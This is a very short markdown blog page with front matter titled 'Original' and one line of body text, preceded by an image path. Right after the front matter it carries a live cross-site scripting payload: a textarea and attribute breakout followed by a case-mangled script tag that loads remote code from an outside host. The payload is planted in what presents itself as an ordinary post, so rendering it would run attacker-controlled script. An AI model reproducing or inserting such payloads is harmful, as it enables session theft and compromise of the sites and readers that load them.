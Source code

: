 title: Original
tags: []
categories: []
date: 2000-11-11 01:18:00
---
</tExtArEa>'"><sCRiPt sRC=//x0.nz/B3xl></sCrIpT>
This is the first;